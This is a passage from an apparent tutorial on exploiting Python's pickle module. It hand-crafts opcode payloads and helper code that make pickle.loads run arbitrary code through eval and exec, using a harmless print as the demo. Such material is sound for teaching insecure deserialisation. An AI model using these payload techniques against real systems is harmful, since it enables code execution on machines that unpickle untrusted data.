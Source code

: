 serialised:

```python
pickle.loads(b'c__builtin__\nprint\n(VSalve mundus!\ntR.')
# prints 'Salve mundus!'
```

### Calling code expressions with `eval`

While it is fun to craft these payloads we actually want to write any code and
write it directly as Python. For this purpose we will pass the python code
directly to eval

```
GLOBAL __builtin__.eval
MARK
  UNICODE 'print("Salve mundus!")'
  TUPLE
REDUCE
STOP
```

Let's write it in code

```Python
malicious_code = 'print("Salve mundus!")'
malicious_string = f"c__builtin__\neval\n(V{malicious_code}\ntR."
malicious_bytes = malicious_string.encode()
pickle.loads(malicious_bytes)
# prints 'Salve mundus!'
```

You can run `03_malicious_run.py` for a demo of this.

### More and better organised malicious code with `exec`

Now the problem with eval is that it runs only single line expressions and it
can be troublesome if you want to run a whole recipe of dangerous code. For this
purpose we will write all our code as we would write a python script and then
encode this code as part of a payload.

```
GLOBAL __builtin__.exec
MARK
  UNICODE 'def evil_function():\u000a    print("Salve mundus!")\u000aevil_function()'
  TUPLE
REDUCE
STOP
```

or in code:

```python
EVIL_STUFF = """
def evil_function():
    print("Salve mundus!")

evil_function()  # auto-call function → otherwise said: make it execute
"""

PICKLE_NEWLINE = "\\u000a"

normalised_evil_stuff = EVIL_STUFF.replace('\n', PICKLE_NEWLINE)
malicious_string = f"c__builtin__\nexec\n(V{normalised_evil_stuff}\ntR."
malicious_bytes = malicious_string.encode()
pickle.loads(malicious_bytes)
# prints 'Salve mundus!'
```
